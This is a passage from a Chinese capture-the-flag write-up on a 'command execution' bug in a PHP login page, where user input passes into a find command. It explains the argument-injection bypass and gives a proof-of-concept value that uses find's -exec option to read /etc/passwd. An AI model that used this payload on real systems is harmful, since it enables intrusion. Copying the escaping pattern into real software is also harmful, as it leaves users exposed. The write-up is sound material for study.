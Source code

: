 跟上一个一样的。

#### 命令执行2

文件路径:

> wp-login.php

漏洞出现的地方:

```php
case 'debug':
        $file = addslashes($_POST['file']);
        system("find /tmp -iname ".escapeshellcmd($file));
        break;
```

按照[官方文档](http://php.net/manual/zh/function.addslashes.php)说明

> addslashes()返回字符串，该字符串为了数据库查询语句等的需要在某些字符前加上了反斜线。这些字符是单引号（*'*）、双引号（*"*）、反斜线（*\*）与 NUL（NULL 字符）。 

只要不出现这些字符，即可不受addlashes()影响

然后发现系统会执行find命令，后面参数可控

测试加上`-or`，发现

```shell
sky@ubuntu:~/Desktop$ find /tmp -iname sth -or a
find: paths must precede expression: a
Usage: find [-H] [-L] [-P] [-Olevel] [-D help|tree|search|stat|rates|opt|exec|time] [path...] [expression]

```

有exec参数

我们尝试

> find /tmp -iname sth -or -exec ls

但是发现会被告知缺少参数，查阅资料可以知道： -exec 参数后面跟的是command命令，它的终止是以;为结束标志的，所以这句命令后面的分号是不可缺少的，考虑到各个系统中分号会有不同的意义，所以前面加反斜杠。 我们尝试 

> find /tmp -iname sth -or -exec ls \;

发现程序会循环打印ls结果

我们加上-quit以只打印一次即可

> find /tmp -iname sth -or -exec ls \; -quit

然后读文件

![](http://skysec.top/images/redhatad%20(1).jpg)

 最后得到

poc:

> file=sth -or -exec cat /etc/passwd ; -quit
